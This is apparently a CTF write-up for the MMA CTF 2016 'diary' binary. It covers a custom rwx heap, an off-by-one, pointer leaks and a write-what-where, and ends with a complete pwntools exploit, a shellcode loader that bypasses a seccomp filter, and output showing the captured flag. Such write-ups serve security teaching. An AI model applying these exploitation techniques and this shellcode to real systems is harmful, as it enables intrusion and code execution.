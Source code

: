 ```yaml
---
layout: post
title: MMA CTF 2016 - diary
published: True
---
```



> [aiRcraft](../binaries/aiRcraft)

> [libc.so.6](../binaries/libc.so.6)

{% highlight bash %}
diary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3648e29153ac0259a0b7c3e25537a5334f50107f, not stripped
{% endhighlight %}

{% highlight bash%}
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

## Summary
The program mmap's a custom heap that is given `rwxp` permissions.

{% highlight text%}
Start              End                Perm      Name
0x00400000         0x00402000         r-xp      /home/vagrant/CTFs/mmactf16/diary/diary
0x00601000         0x00602000         r--p      /home/vagrant/CTFs/mmactf16/diary/diary
0x00602000         0x00603000         rw-p      /home/vagrant/CTFs/mmactf16/diary/diary
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p      mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fe8000 0x00007ffff7feb000 rw-p      mapped
0x00007ffff7ff5000 0x00007ffff7ff6000 rwxp      mapped  <--- mmap'd heap!
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p      mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p      [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp      [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p      mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
{% endhighlight %}

Chunks are allocated on this heap with a custom memory allocator. 

There are 3 main vulnerabilities in this program.

1. the `getnline()` function has an **off-by-one** vulnerability which allows an extra byte to be written to a note chunk, corrupting the `size` field of a subsequent note chunk
1. heap chunks that are re-allocated are not zero'd out before the re-allocation, leaving artifacts from old heap chunks, including heap chunk pointers, in the new heap chunk that can be leaked
1. there is a **write-what-where** vulnerability 

We can use the 2nd vulnerability to bypass ASLR and leak the mmaped heap address. 

{% highlight text %}
unlink_freelist+1B                   mov     rax, [rbp+free_chunk]
unlink_freelist+1F                   mov     rax, [rax+10h]
unlink_freelist+23                   mov     rdx, [rbp+free_chunk]
unlink_freelist+27                   mov     rdx, [rdx+8]
unlink_freelist+2B                   mov     [rax+8], rdx
unlink_freelist+2F                   mov     rax, [rbp+free_chunk]
unlink_freelist+33                   mov     rax, [rax+8]
unlink_freelist+37                   mov     rdx, [rbp+free_chunk]
unlink_freelist+3B                   mov     rdx, [rdx+10h]
unlink_freelist+3F                   mov     [rax+10h], rdx
{% endhighlight %}

{% highlight text %}
gdb-peda$ p _IO_2_1_stdin_
$3 = {
  file = {  
    _flags = 0xfbad208b,
    _IO_read_ptr = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_read_end = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_read_base = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_write_base = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_write_ptr = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_write_end = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_buf_base = 0x7ffff7dd1963 <_IO_2_1_stdin_+131> "\n",
    _IO_buf_end = 0x7ffff7dd1964 <_IO_2_1_stdin_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0x0,
    _flags2 = 0x0,
    _old_offset = 0xffffffffffffffff,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = "\n",
    _lock = 0x7ffff7dd3790 <_IO_stdfile_0_lock>,
    _offset = 0xffffffffffffffff,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dd19c0 <_IO_wide_data_0>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0xffffffff,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dd06e0 <_IO_file_jumps>
}
{% endhighlight %}

{% highlight  text %}
gdb-peda$ x/32xg 0x7ffff7ff5118
0x7ffff7ff5118: 0x0000000000000029      0x00007ffff7ff5128 <-- fake vtable!
0x7ffff7ff5128: 0x00007ffff7dd19b0      0x4747474747474747 <-- &_IO_2_1_stdin_.vtable-0x8!
0x7ffff7ff5138: 0x4747474747474747      0x0000000000000028
0x7ffff7ff5148: 0x00000707000007d7      0x00007ffff7ff5170
0x7ffff7ff5158: 0x00000000006020c0      0x00007ffff7ff50f8
0x7ffff7ff5168: 0x0000000000000109      0x9090909090909090
0x7ffff7ff5178: 0x9090909090909090      0x9090909090909090
0x7ffff7ff5188: 0x9090909090909090      0x9090909090909090
0x7ffff7ff5198: 0x9090909090909090      0x9090909090909090
0x7ffff7ff51a8: 0x9090909090909090      0x9090909090909090
0x7ffff7ff51b8: 0x9090909090909090      0x9090909090909090
0x7ffff7ff51c8: 0x9090909090909090      0xc08308c083c03148
0x7ffff7ff51d8: 0x00602000c7c74802      0x4800001000c6c748
0x7ffff7ff51e8: 0x050f00000007c2c7      0xc748ff3148c03148
0x7ffff7ff51f8: 0xc2c74800602200c6      0xc748050f00000200
0x7ffff7ff5208: 0x04c74800602400c4      0x2444c70060220024
gdb-peda$ p &_IO_2_1_stdin_.vtable
$4 = (const struct _IO_jump_t **) 0x7ffff7dd19b8 <_IO_2_1_stdin_+216>
{% endhighlight %}

{% highlight text %}
gdb-peda$ p 0x7ffff7ff5170-0x7ffff7ff5128
$39 = 0x48
{% endhighlight %}


The vulnerability in this program is that it allows a 1-byte overflow to happen

Putting everything together, we can get the flag using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(date, size, note):
    r.sendlineafter(">>", "1")
    r.sendlineafter(" ... ", date)
    r.sendlineafter("size...", str(size))
    if size != 0:
        r.sendafter(date, note)

def delete(date):
    r.sendlineafter(">>", "3")
    r.sendlineafter(" ... ",date)

def show(date):
    r.sendlineafter(">>", "2")
    r.sendlineafter(" ... ",date)
    return r.recvuntil("1.")

def a64(payload):
    return asm(payload, arch='amd64', os='linux')

def exploit(r):
    # LEAK HEAP
    register("2001/01/01", 0x20, "A\n")
    register("2002/02/02", 0x20, "B\n")
    register("2003/03/03", 0x20, "C\n")

    delete("2001/01/01")
    delete("2002/02/02")

    register("2004/04/04", 0x64, "E")

    leak = show("2004/04/04")
    heap_base = u64(leak.split("04\n")[1][0:6].ljust(8,'\0'))-0x45
    log.success("mmaped heap base at: "+hex(heap_base))

    # LEAK LIBC
    payload  = p64(0x6020f8) #stdin@bss
    payload += p64(heap_base+0x8)
    register("2005/05/05",0x20, payload+"F"*0x10+"\n")
    delete("2005/05/05")

    leak = show("2004/04/04")
    stdin = u64(leak.split("04\n")[1][0:6].ljust(8,'\0'))
    libc_base = stdin-0x3c48e0
    stdout = libc_base+0x3c5620
    
    log.success("libc base at: "+hex(libc_base))
    log.success("_IO_2_1_stdout_ at: "+hex(stdout))

    # CORRUPT _IO_2_1_STDOUT_->vtable
    payload = p64(heap_base+0x128) #   
    payload += p64(stdin+0xd8-0x8) # offset to vtable
    register("2006/06/06",0x20, payload+"G"*0x10+"\n")
    
    # 32-BIT SHELLCODE
    # syscall  - rax=0x0, rdi=0x0, rsi=addr, rdx=0x20
    #payload_main = asm(shellcraft.i386.linux.execve('./bash'), arch='x86') <-- fails because need a 32-bit bash binary!
    payload_main = asm(shellcraft.i386.linux.open('./flag'), arch='x86')
    payload_main += asm(shellcraft.i386.linux.read(3, 0x602600, 100), arch='x86')
    payload_main += asm(shellcraft.i386.linux.write(1, 0x602600, 100), arch='x86')

    # 64-BIT SHELLCODE 
    # mprotect - rax=0xa, rdi=dest, rsi=len, rdx=0x7(rwx)
    # read     - rax=0x0, rdi=0(stdin), rsi=dest, rdx=count     
    sc_loader =  ''' 
                 xor rax, rax
                 add eax, 0x8
                 add eax, 0x2
                 mov rdi, 0x602000
                 mov rsi, 0x1000
                 mov rdx, 0x7
                 syscall
    
                 xor rax, rax
                 xor rdi, rdi
                 mov rsi, 0x602200
                 mov rdx, 0x200
                 syscall
                
                 mov rsp, 0x602400
                 mov qword ptr[rsp], 0x602200
                 mov dword ptr[rsp+4], 0x23
                 retf
                 '''            
    payload_loader = "\x90"*0x60 # why need this??
    payload_loader += asm(sc_loader, arch='amd64', os='linux')
    
    register("2007/07/07", 0x100, payload_loader + "\x90"*(0x100-len(payload_loader))) 
    delete("2006/06/06") 
    r.sendline(payload_main)
    r.recvuntil(">>")
    print r.recv(50) # get flag :)
    
    #r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/mmactf16/diary/diary'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight text %}
➜  diary python solve.py
[*] For remote: solve.py HOST PORT
[+] Starting local process '/home/vagrant/CTFs/mmactf16/diary/diary': pid 27479
[27479]
[*] Paused (press any to continue)
[+] mmaped heap base at: 0x7ffff7ff5000
[+] libc base at: 0x7ffff7a0d000
[+] _IO_2_1_stdout_ at: 0x7ffff7dd2620
[*] Process '/home/vagrant/CTFs/mmactf16/diary/diary' stopped with exit code -11 (SIGSEGV) (pid 27479)
 TWCTF{bl4ckl157_53cc0mp_54ndb0x_15_d4ng3r0u5}
\x00\x00\x00
{% endhighlight %}
